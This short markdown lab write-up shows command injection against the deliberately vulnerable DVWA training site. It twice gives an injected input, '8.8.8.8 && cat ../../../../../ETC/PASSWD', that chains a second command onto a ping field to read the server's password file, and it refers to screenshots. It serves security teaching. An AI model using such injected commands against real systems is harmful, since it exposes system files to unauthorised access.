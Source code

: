 ## Exposing the injection vulnerability in the DVWA Website

* Using command: 8.8.8.8 && cat ../../../../../ETC/PASSWD

* As you can see, we are able to see the ETC/PASSWD file inside the DVWA Server

![pic](etcpass.PNG)

## Same command using the Linux Command Line

* 8.8.8.8 && cat ../../../../../ETC/PASSWD

* NOTE: also observe in the picture that I have changed directory's (CD ..) to document the 5 subdirectories 

![pic](etcpass1.PNG) 
 




